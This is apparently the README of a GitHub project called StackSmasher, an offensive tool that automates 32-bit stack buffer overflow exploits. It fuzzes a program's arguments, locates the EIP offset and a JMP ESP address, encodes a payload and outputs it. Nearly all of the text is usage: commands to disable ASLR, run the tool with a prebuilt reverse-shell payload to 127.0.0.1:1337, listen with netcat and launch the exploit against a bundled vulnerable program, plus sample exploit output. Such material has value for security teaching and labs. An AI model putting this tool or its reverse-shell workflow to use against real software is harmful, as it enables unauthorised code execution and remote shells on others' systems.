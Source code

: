 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions.

Finally it builds the final payload and outputs it.

## Modes
The application has two modes, verbose which outputs the information it has found as well as the exploit as a python script. The other mode is exploit mode which only outputs the exploit payload.

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Compiling

To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

## Running StackSmasher
### Verbose Mode
Running smasher in *verbose* mode with the prebuild reverse shell (127.0.0.1:1337) payload against the application *vulnerable*.

```sh
cd bin
chmod +x smasher vulnerable
./smasher verbose payloads/reverse-shell.bin vulnerable
```

Example Output:
```sh
[*] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with length of 0x530
[*] Finding bad characters...
[+] Found 4 bad characters: \x00\x0a\x0d\x43
[*] XOR encoding payload...
[+] [1506 bytes] python -c 'print("\x41\x41\x41...\xc2\x8f\x19")'
```

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
cd bin
./vulnerable $(python -c 'print("\x41\x41...\xcd\x80\x00")')
```

### Exploit Mode
Running smasher in *exploit* mode with the prebuild reverse shell (127.0.0.1:1337) payload against the application *vulnerable*.

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
./vulnerable $(./smasher exploit payloads/reverse-shell.bin vulnerable)
```

![StackSmasher](https://user-images.githubusercontent.com/31845045/108642265-06a30800-749c-11eb-88bb-40d9aa6c987b.png)
![Reverse Shell](https://user-images.githubusercontent.com/31845045/108642230-e4a98580-749b-11eb-8243-b90a4280ded4.png)
